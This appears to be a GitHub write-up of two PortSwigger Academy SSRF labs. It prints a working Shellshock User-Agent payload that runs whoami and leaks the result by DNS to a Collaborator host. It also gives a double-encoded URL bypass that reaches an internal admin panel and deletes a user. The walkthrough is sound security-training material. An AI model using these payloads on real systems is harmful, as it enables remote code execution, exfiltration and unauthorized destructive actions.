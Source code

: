 ## Labs Covered

This write-up focuses on the following **EXPERT-level labs** from the PortSwigger Web Security Academy related to **Server-side request forgery (SSRF)**:

**Blind SSRF with Shellshock exploitation**  
This lab demonstrates how to exploit SSRF vulnerabilities combined with the Shellshock bug to execute remote code.

**SSRF with whitelist-based input filter**  
This lab shows how attackers can bypass whitelist-based input filters to exploit SSRF vulnerabilities.

---

### LAB 6 - Blind SSRF with Shellshock exploitation

### Lab Description

![image](https://github.com/user-attachments/assets/f6bab582-1107-4580-bb46-8b2138e7cab5)


### Solution

- I accessed the lab and clicked on a product.
- Using **Burp Suite**, I intercepted the request to analyze possible SSRF injection points.

### 2. **Using Collaborator Everywhere**

- Enabled the **Burp extension: Collaborator Everywhere**, which automatically injects payloads into headers like `User-Agent`, `Referer`, etc.
- Marked the lab as **in-scope** and browsed multiple pages to trigger different requests.
- The **Burp Collaborator** received DNS callbacks from `User-Agent` and `Referer` headers, confirming an SSRF and possible OAST vector.

![image](https://github.com/user-attachments/assets/b3a837e2-97b1-4905-83cf-bbe6b616b4b1)
---

## 3. **Preparing Shellshock Payload**

- As the lab required exploiting Shellshock, I searched online and found a [**Cloudflare blog**][(https://blog.cloudflare.com/inside-shellshock](https://blog.cloudflare.com/inside-shellshock/)/) detailing working payloads.


![image](https://github.com/user-attachments/assets/eca7791d-a9a1-4435-90b1-81d86db8e5aa)




#### Final Payload (used in `User-Agent`):

I replaced `/bin/eject` with `/bin/nslookup` because I wanted the DNS lookup for the domain which contained the result of whoami and added $(whoami) before the Burp collaborator URL to see the output in the collaborator window. This was the final payload:


```bash
() { :;}; /bin/nslookup $(whoami).<my-collaborator-id>.oastify.com
````

![image](https://github.com/user-attachments/assets/f969ba50-e0e3-4185-a7ab-772c078f3935)

---

## 4. **Identifying the Vulnerable Internal Host**

* Lab description hinted the vulnerable internal server was at:

  ```
  192.168.0.X:8080
  ```
* I crafted requests with the above payload in the `User-Agent` header and started a **Burp Intruder** attack on the `Referer` header to test:

  ```
  Referer: http://192.168.0.[1-255]:8080/
  ```

 ![image](https://github.com/user-attachments/assets/034c25ee-e285-4835-b098-50b4d75cac90)


Setting Payload attack on intruder

![image](https://github.com/user-attachments/assets/2c588c11-1929-4216-8a7c-166648dd7170)

While my intruder attack was running, I received a callback on the burp collaborator along with the OS user which when I submitted in the application solved the lab

![image](https://github.com/user-attachments/assets/df014929-f46b-4b0c-9152-b2fdaf002d4f)



![image](https://github.com/user-attachments/assets/9c3ef8df-b721-4816-b777-f526bd48236a)






---

### LAB 7 - SSRF with whitelist-based input filter

### Lab Description

![image](https://github.com/user-attachments/assets/35444ae3-fcde-4d5c-9605-8b2e6408a18f)


### Solution


#### 1. **Initial Attempt – Direct Access Blocked**

- I intercepted the **Check Stock** request and replaced the `stockApi` parameter value with:
```

http://localhost/admin

```
- The server responded with:
```

External stock check must be stock.weliketoshop.net

```


![image](https://github.com/user-attachments/assets/f547eeee-02eb-4fd0-82eb-49f21354b41a)



- This confirmed that the application was enforcing a domain whitelist.

---

#### 2. **Testing With Whitelisted Domain**

- I tried accessing:
```
 http://stock.weliketoshop.net/admin

```

![image](https://github.com/user-attachments/assets/37b68c88-aa13-4a3d-b0fb-d443c76b9f78)

- Got a **500 Internal Server Error**, suggesting the request reached the internal service but was misconfigured or incomplete.

---

#### 3. **Bypassing the Whitelist Using URL Parser Confusion**

##### 3.1. **Injecting a Username Before the Host**

- I tested:
```

http://admin@stock.weliketoshop.net/

```

![image](https://github.com/user-attachments/assets/e3f29e10-10dd-4722-8bbb-eb6fa884fef7)

- Server responded with 500 — good sign. The app accepted the format.

  ![image](https://github.com/user-attachments/assets/9b192089-2411-4cf0-8767-b8c325f813b0)


##### 3.2. **Using Fragment Injection With `#`**

- I tested:
```

http://admin#@stock.weliketoshop.net/

```
- The server responded with:
```

External stock check host must be stock.weliketoshop.net

```

![image](https://github.com/user-attachments/assets/f22b8c4b-b5de-474d-abd1-b6be3b453c63)

- This implied the URL parser was seeing `admin` as the host and ignoring the rest (after `#`) as a fragment.

##### 3.3. **Trying URL Encoding**

- I encoded the `#` as `%23`:
```

http://admin%23@stock.weliketoshop.net

```
- Still failed — the filter likely decoded it once.

##### 3.4. **Double URL Encoding**

- I double-encoded `#` as `%2523`:
```

http://admin%2523@stock.weliketoshop.net

```

![image](https://github.com/user-attachments/assets/f02e65b7-ab4d-4b70-90cb-89e9287ad7e7)

- Server returned **500**, indicating that parsing was bypassed and the request was accepted.

---

#### 4. **Injecting `localhost`**

- Since `admin` wasn’t the goal, I replaced it with `localhost`:
```

http://localhost%2523@stock.weliketoshop.net

```

![image](https://github.com/user-attachments/assets/9200e67f-c2ce-484e-91a6-c294bf494d1c)

- This triggered a `200 OK` response and revealed the `/admin` path in the response body.

---

##### 5. **Accessing the Admin Interface**

- Appended `/admin` to the URL:
```

http://localhost%2523@stock.weliketoshop.net/admin

```

![image](https://github.com/user-attachments/assets/c722989f-df57-495c-818e-ce18f52f14a6)

- This revealed the deletion endpoint:
```

/admin/delete?username=carlos

```

![image](https://github.com/user-attachments/assets/d69cb3ff-9bd8-4b54-9a9a-e605800ca9e4)



##### 6. **Final Payload to Delete User**

- I submitted the final payload in the `stockApi` parameter:
```

http://localhost%2523@stock.weliketoshop.net/admin/delete?username=carlos

```
- This triggered the deletion of `carlos`.

- ![image](https://github.com/user-attachments/assets/b8c32e8e-f9e2-4c00-b23e-f160464485b9)

  And lab is solved after deleting Carlos user

![image](https://github.com/user-attachments/assets/32953fcf-2525-4c78-9c1a-fff07a914a76)


---
